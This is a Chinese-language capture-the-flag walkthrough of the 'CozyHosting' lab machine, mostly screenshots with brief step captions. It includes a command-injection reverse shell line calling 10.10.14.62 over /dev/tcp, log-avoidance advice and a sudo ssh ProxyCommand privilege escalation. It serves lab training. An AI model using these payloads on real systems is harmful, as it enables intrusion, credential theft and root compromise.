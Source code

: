CozyHosting Level:Easy
===
尋找user.txt
---
    1.Nmap掃描IP，發現有開22、80

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/be94bec4-7737-4fb2-8017-4f20fccf7517)

    2.使用dirsearch搜尋目錄，找到/actuator/sessions，內容跟session有關

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/969ec080-c913-4f63-b819-1aa035fd5303)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a068678f-5ba5-48ce-8923-3fc98f91c180)

    3.透過session cookie登入Web

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/df05fe7b-4e80-4c59-b946-eb1746901947)

    4.找到疑似可執行ssh，透過burpsuite抓包測試確認可以執行指令

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f05c4cc3-a6d0-4d1f-bfd4-33d3ab5bcc4e)

    5.插入reverse shell取得shell

     ;`(sh)0>/dev/tcp/10.10.14.62/1234`   ;表示指令分隔符，它可以讓你在一行中連續執行多個指令。 ``反引號（backticks），表示執行包裹在其內部的命令，並將其輸出插入到命令列中。
 
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/eb0de815-97af-4104-bfd9-5ccb5aea6225)

    6.輸入exec >&0，它會將腳本或程式的輸出重新定向到標準輸入，這通常被用於隱藏輸出或將輸出發送到相同的地方作為輸入，以便與輸入進行互動。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9048a526-b34b-46a3-834b-158df8333b02)

    7.最後輸入script /dev/null -c bash，將輸出記錄到/dev/null就會被拋棄。這樣執行的命令不會在目標上留下任何痕跡

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1d0621b2-8094-4c44-b98c-00f323093450)

    8.在當前目錄下沒有user.txt但發現有一個jar包，將jar包載下來

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bb41f8bb-e22f-433a-b1ce-b32306443242)

    9.解開jar包，使用grep 找出postgres的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/70c02312-0773-4199-9b55-d07483c3b52e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ceb7f02e-d4a9-4d8a-b0b4-df1927125c9e)

    10.看到postgres服務是開啟的

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f184b159-513c-465a-99e8-3d963383a0e3)

    11.連入postgres

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e466690-9663-4a26-9d5b-65bdaf120231)

    12.可以看到兩個表hosts、users，關注users這張表

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d3ecc83f-5181-42a6-8051-8cd4b655f1a2)

    13.找到了兩個帳號

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f063f5cf-559a-4c8a-a5a0-25b65bc1fd74)

    14.破解admin密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e7ef2237-92cb-450e-a256-d4c2d7967ae0)

    15.試了三次都失敗，可能不是admin的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0495abd2-5ef2-48f8-b12c-1bfeec816f38)

    16.檢查/etc/passwd，發現還有josh帳號，使用josh登入成功

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1737df42-4cfd-4387-b9bc-1400f818da4e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/3363ba3a-7f98-44ca-86e0-8790d239b30f)

    17.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/7d3bcc1e-2246-4153-b22f-f8770b666be5)

    18.執行sudo -l發現SSH 可以使用 root 權限執行。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1aa189e9-4cf6-4c3a-a9e2-62c70a61938e)

    19.到[gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo)找到指令提權

     sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/c1fd6925-0dcd-453f-a184-fb372a7d1e1a)

    20.找到root.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1db3328f-75e6-4f8e-92ef-f9a0b83b34ef)
